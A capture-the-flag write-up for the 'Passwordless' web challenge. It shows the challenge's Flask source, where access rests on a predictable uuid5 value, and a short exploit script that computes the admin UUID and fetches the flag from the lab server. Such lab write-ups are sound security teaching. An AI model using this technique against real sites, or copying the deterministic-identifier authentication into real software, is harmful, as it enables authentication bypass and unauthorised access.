

					
					
## Challenge's Description 

Tired of storing passwords? No worries! This super secure website is passwordless! Author: `NoobMaster`
### Attachments
- [app.py](https://static.n00bzunit3d.xyz/Web/Passwordless/app.py)
- [http://24.199.110.35:40150/](http://24.199.110.35:40150/)

## Solution 

We are given an python file that the website runs. Not something difficult here, it tell us straight forward that to get the flag you need to be the user "admin123" and have the uuid equal to "13371337-1337-1337-1337-133713371337"

**app.py:**
```python
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import subprocess
import urllib
import uuid
global leet

app = Flask(__name__)
flag = open('/flag.txt').read()
leet=uuid.UUID('13371337-1337-1337-1337-133713371337')

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        if username == 'admin123':
            return 'Stop trying to act like you are the admin!'
        uid = uuid.uuid5(leet,username) # super secure!
        return redirect(f'/{uid}')

@app.route('/<uid>')
def user_page(uid):
    if uid != str(uuid.uuid5(leet,'admin123')):
        return f'Welcome! No flag for you :('
    else:
        return flag

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

If we try to do it without some tool or script to intercept the requests we will failed cause after we insert the username as "admin123" a random uuid get generated and of course isn't the one that we want to get the flag. 
So, in order to take the flag we must do it with some tool like burpsuite/postman or to write an exploit script. I did both of them xD

**exploit.py:**
```python
#!/usr/bin/env python3
import uuid
from requests import get

url = "http://24.199.110.35:40150/"

leet = uuid.UUID('13371337-1337-1337-1337-133713371337')
admin_username = 'admin123'

admin_uid = uuid.uuid5(leet, admin_username)
print('[+] admin uuid: ' + str(admin_uid))

r = get(url=url+str(admin_uid))
print(r.text)
```

And we got the flag!

```sh
┌──(vein㉿vein)-[~]
└─$ ./exploit.py      
[+] admin uuid: 3c68e6cc-15a7-59d4-823c-e7563bbb326c
n00bz{1337-13371337-1337-133713371337-1337}
```